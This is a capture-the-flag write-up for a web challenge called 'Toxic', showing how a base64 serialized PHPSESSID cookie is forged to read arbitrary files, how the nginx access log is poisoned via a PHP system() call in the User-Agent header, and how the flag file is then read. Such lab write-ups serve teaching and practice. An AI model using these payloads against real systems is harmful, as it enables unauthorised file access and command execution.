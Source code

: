 # Toxic
The following is a quick  writeup for the Toxic challenge.

By inspecting the challenge's files, specifically index.php and PageModel.php, we see that our phpsessid cookie is deserialised, and the file to display on the screen is retrieved from the deserialised object.

The cookie is converted to ascii and the object is produced
```
echo 'Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9' | base64 -d
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```
While we are able to read and modify files from the server, we cannot access the flag file since we don't know its name. Therefore, we poison the server logs.

```
echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNz
LmxvZyI7fQo=
```
This new cookie will be sent to the server, and the log file can be read.
```
GET / HTTP/1.1
Host: 127.0.0.1:1234
User-Agent: <?php system('ls /');?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo=
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
We send this request to poison the nginx log, and when we display the log file again, we see a directory listing.
```
dev
entrypoint.sh
etc
flag_SDCCSD
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
The cookie reads the flag file, we send it to the server, The flag is ours.
```
echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/flag_SDCCSD";}' | base64

Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2ZsYWdfU0RDQ1NEIjt9
```